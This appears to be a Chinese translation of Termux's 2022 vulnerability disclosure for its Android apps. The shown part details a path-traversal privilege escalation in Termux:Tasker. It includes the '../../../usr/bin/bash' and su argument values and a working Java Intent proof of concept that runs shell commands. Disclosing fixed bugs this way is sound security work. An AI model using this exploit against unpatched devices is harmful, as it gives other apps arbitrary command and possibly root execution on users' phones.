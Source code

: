 ```yaml
---
title:  "Termux应用程序漏洞披露"
redirect_from: /general/2022/02/15/termux-apps-vulnerability-disclosures.html
page_ref: /posts/general/2022/02/15/termux-apps-vulnerability-disclosures.html
---
```


这是 `termux-app`、`termux-tasker` 和 `termux-widget` 的漏洞报告。

本报告发布于 `2022-02-15`， 距 离 `termux-app` [`v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)  发布还剩`30` 天， 距离谷歌应用商店构建版本的程序被官方地使用添加在 [`termux-tools` `v0.135`](https://github.com/termux/termux-packages/pull/7493) 中的终端横幅以及 [添加带有弃用信息的 `termux-app` README](https://github.com/termux/termux-app/commit/94e01d68) 弃用大约有 `150` 天。 这应该已经为使用谷歌应用商店版本 (最新版本 `v0.101`) 的用户留出足够的时间来切换到在 F-Droid 或 Github 发布的 `Termux` 主程序以及其插件应用，并为其他  `<= v0.117` 版本的 Termux 应用程序用户提供足够的时间更新为 `>= v0.118.0`版本。

**建议所有使用旧版本的用户立即更新到[`Termux` `v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)、 [`Termux:Tasker` `v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) 以及 [`Termux:Widget` `v0.13.0`](https://github.com/termux/termux-widget/releases/tag/v0.13.0)**

## 目录

- [1. Termux:Tasker 权限提升漏洞](#termuxtasker-)
- [2. Termux:Widget 权限提升漏洞](#termuxwidget-)
- [3. Termux 文件全局可读](#termux-)
##



## 1. Termux:Tasker 权限提升漏洞

此漏洞允许其他程序在 `termux` 上下文执行 **任意指令** 。如果 `termux` 被其他应用赋予了 root 权限，甚至可以允许在 `root` 权限的环境中执行。

本漏洞首先存在于 [`v0.1`](https://github.com/termux/termux-tasker/releases/tag/v0.1) (`2016-12-26`) 版本， `<= v0.4` 的任意版本都会受到该漏洞的影响。本漏洞被修复于 [`v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) (`2020-12-07`).

该漏洞源于 Termux:Tasker 应用程序的 [`FireReceiver.java`](https://github.com/termux/termux-tasker/blob/v0.4/app/src/main/java/com/termux/tasker/FireReceiver.java#L50) 文件中，该文件中没有对可执行文件的完整规范路径进行检查并按提供的原样执行。实际上， `Termux:Tasker` 应用程序仅允许执行 `~/.termux/tasker` 目录中的脚本，以防止其他应用程序在 termux 上下文中执行任意命令，但没有对可执行文件进行规范路径检查。其他应用程序可以发送 `../../../usr/bin/bash` 作为 `executable` 参数、 `-c "some termux context command"` 作为 `args` 参数以在 `termux` 环境中执行命令，或者发送 `.. /../../usr/bin/su` 作为 `executable` 参数、 `-c "some root context command"` 作为 `args` 参数以在 `root` 权限的环境中执行命令

注意，不一定是 Termux 插件的应用程序将 Intent 发送到 `FireReceiver`，任何应用程序都可以使用 Java 代码发送 Intent。 [`Termux:Tasker Exploit`](/assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml) 给出了如何使用 `Tasker` 的 Java Action 来模拟一个普通的应用程序发送 Intent。

### 1. POC

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

